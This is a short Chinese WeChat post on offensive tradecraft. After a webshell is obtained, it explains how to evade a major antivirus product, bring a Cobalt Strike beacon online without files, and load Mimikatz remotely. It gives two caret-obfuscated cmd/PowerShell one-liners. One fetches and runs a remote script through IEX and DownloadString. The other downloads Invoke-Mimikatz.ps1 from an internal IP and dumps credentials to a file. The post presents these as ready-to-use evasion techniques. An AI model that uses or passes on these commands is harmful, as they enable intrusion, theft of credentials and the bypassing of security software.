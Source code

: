 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/UeWgNOUNP4fKAvKLzmCe1g)

视觉福利

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/PZCtvaaOQSmLTz4LW7Ac7ibgFxKSLwo9QW2iaiaGalAj2qHaZHpDzDkFQWQIPFqXzwH8E1PCgQ9SU2RDq8WUAnsng/640?wx_fmt=jpeg)

### 前言

```
好多时候，拿到webshell以后。习惯性的想cs上线->读密码->3389一条龙服务cs上线，就牵扯到了关于powershell。读密码可以本地，也可以远程加载。为了方便，这里进行了powershell的免杀，绕过全家桶尝试。不光可以powershell->cs上线。mimikatz的远程加载更是方便的。
```

### 绕过某数字 powershell 无文件上线 cs  

```
借助powershell免杀，尝试cs上线，进而绕过全家桶查杀。
```

```
cmd /c echo I^E^X ((new-object net.webclient).d^o^w^n^l^o^a^d^s^t^r^i^n^g('http://127.0.0.1/a')) | p^o^w^e^r^s^h^e^l^l -|w^h^o^a^m^i
```

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/PZCtvaaOQSlLDS0DGibIQfFUewKk5Lhzx3dHmGNgvAW18k8FFytNLb3xgIibicxQP8XlHjqhicxbPsMDCfsTZqcNkA/640?wx_fmt=gif)

### 绕过某数字远程加载 mimikatz

```
采用Invoke-Mimikatz.ps1进行远程mimikatz远程加载的方式，进行绕过全家桶的查杀。
```

```
echo I^E^X (New-Object Net.W^e^b^C^l^i^e^n^t).D^o^w^n^l^o^a^d^S^t^r^i^n^g('http://10.0.100.14:80/download/Invoke-Mimikatz.ps1'); I^n^v^o^k^e^-M^i^m^i^k^a^t^z -D^u^m^p^C^r^e^d^s |p^o^w^e^r^s^h^e^l^l - >1234.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/PZCtvaaOQSlLDS0DGibIQfFUewKk5LhzxY70ZLCQC8Dia7rNgHyJbw53nqvjpbvcumTmdtjIFYAkne2ZB06tYibZA/640?wx_fmt=gif)

 **走过，路过。不要错过。点个关注再走呗。**

![](https://mmbiz.qpic.cn/mmbiz_jpg/PZCtvaaOQSkicC4NZic4cGC3dPs0gnNY0SmJtHgxdU7S47rGOhMibZslm4garusfvGCLYBbBreu21IdzGwYiaeElZg/640?wx_fmt=jpeg)

 **长按识别二维码，关注极梦 C 公众号哦~~**
